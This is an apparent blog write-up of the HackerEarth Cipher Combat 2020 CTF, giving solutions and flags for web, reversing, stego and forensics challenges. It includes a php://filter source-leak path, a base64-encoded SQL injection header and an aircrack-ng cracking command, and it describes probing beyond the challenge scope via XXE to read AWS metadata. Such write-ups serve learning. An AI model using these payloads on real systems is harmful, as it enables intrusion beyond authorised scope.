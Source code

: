 ```yaml
---
layout : default
---
```


# Cipher Combat HackerEarth 2020
27-01-2020

This CTF was far better than the last year's cipher combat. Thanks to HackerEarth team for organizing such CTFs.
I don't have much time to explain everything about all the challenges. I will only discuss two challenges, but leave brief info about other remaining challenges so that you can solve them on your own. For any queries, you can contact me on twitter or e-mail.


## Lost Cred

We need to form a raw request on our own, it required some guess work :)

![HE1](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/hackerearth-cipher-combat/he1.JPG)

FLAG: HE{eCC82cC8CB5fef277401a0A787d1CE1b9f65644F4ef956d5AEfC9fa63A21c842}


That's it we got the flag. It's not over yet. I was not able to solve "Bruted" challenge. As it was unsolvable without knowing the **secret**. The source code was completely secure. One thing I noticed that all web challenges were hosted on same server machine. So I thought of doing some unintentional.

See below, I was trying to exploit "Bruted" challenge using the XXE vuln of "Lost Cred". I was also able to ping my own server. I had an idea of hosting a malicious DTD on my server and then getting Remote Code Execution on system, but in that case we need to escape from docker container.

![HE2](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/hackerearth-cipher-combat/he2.JPG)

I was able to leak some AWS related info. I could try to exploit it further and leak admin credentials. But I think Amazon have already patched their services (you can read about it [here](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)) and also it's against the rules of this CTF. So I skipped that part.

![HE3](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/hackerearth-cipher-combat/he3.JPG)

---

## Reverse Master

I reverse engineered first 3 binaries and found out following pattern: 

```
6000C9  Operation (add, sub or xor)
6000CC  cmp with result
```

You could use pwntools to write well-optimized code. I did it with objdump and pure python.

```py
fd = open("ll")
l = fd.readlines()
fd.close()

flag = ""

for i in range(0, len(l),2):
	op1 = l[i].split('\t')[2].replace('\n','')[:3]
	intval1 = int(l[i].split('\t')[2].replace('\n','').split(',')[1], 16)
	cmpval1 = int(l[i+1].split('\t')[2].replace('\n','').split(',')[1], 16)
	#print op1, intval1, cmpval1
	if op1 == "add":
		#print "add"
		flag += chr(cmpval1 - intval1)
	elif op1 == "sub":
		#print "sub"
		flag += chr((cmpval1 + intval1)%256)
	else: # xor
		#print "xor"
		flag += chr(cmpval1 ^ intval1)

print flag
```

![HE4](https://raw.githubusercontent.com/r0hanSH/r0hanSH.github.io/master/images/hackerearth-cipher-combat/he4.JPG)

FLAG: HE{6586C7Fdbae82C4877f57f0A7386f578ACc69737fF8293Ab1F851BA0b6Ee0C74}

---

Brief info about other challenges:

### Three-words

```
root@localhost:/threewords# export racker=talkative
root@localhost:/threewords# ./threewords mainstream
congrats!! you got your 3 words

HE{talkative_racker_mainstream}
```

### Shifter

```py
given = "rf.bo'b/$ke"
for i in range(1,0xc):
	f += chr(i+ord(given[i-1]))
print f
'sh1ft-i7-up'
```

HE{sh1ft-i7-up}


### 2FA-Trouble

Leak source code using ```/index.php/php://filter/convert.base64-encode/resource=vault```

Found SQLi and enumerated further to find valid username:
```
X-Forwarded-For: 208.88.84.1
Authorization: Basic bmFtZScgb3IgJzEnPScyJyBVTklPTiBTRUxFQ1QgJ0phbTNzQjBuZCcsJzVmNGRjYzNiNWFhNzY1ZDYxZDgzMjdkZWI4ODJjZjk5Jy0tOnBhc3N3b3Jk
```

HE{wh4t_y0u_br0k3_Da_vAuLt_4ga1n}


### Braden

Use **StegSolve** (Red Plane 0), you will see another image. Save that image and then use OCR to dump the content in text format. The esoteric language was **ReverseFuck**, run the code and get the flag.

HE{br4inst3gogr4phed}


### My Fav Song

Used Audacity to analyse the file. Found morse code and translated it to ASCII. Found a pastebin link (https://pastebin.com/QZZAUGPZ)

HE{4ud10_fil3s_c4n_h1d3_d4t4}


### Merge-Me

```cat \`ls\` > x.pcap```

Open x.pcap in wireshark, analyse FTP communication.

HE{$up3r$3cr3Tu$3R}


### Lame Virus

Given exe was UPX-compressed. Decompress it using official upx decompressor. Then analyse decompressed exe and get the flag.

HE{an0th3er_cl4ssic_m4lwar3}


### Crack Network

```aircrack-ng -w rockyou.txt crack-the-network.cap```

Found password: budaksetan

HE{budaksetan}


### NoTe

```mv challenge.odt challenge.zip; 7z x challenge.zip```

Go to Pictures folder and found jpg image having base64 encoded flag.

HE{h1dd1ng_1nf0_1n_s3cr3t_pl@c3}


### Scroll-Dispatched

Thanks to organizers for releasing last minute hint (Use CrypTool). Initially, I knew it's scytale cipher but was not able to decipher it. I tried all possible keys from 1 to 28 but found nothing.

Use CrypTool -> Scytale Cipher with number of turns=5, you will get another base64 encoded string.

```
root@localhost:~# echo SEV7aTdfbjNWZXJfZzN0c18wbGR9 | base64 -d
HE{i7_n3Ver_g3ts_0ld}
```

---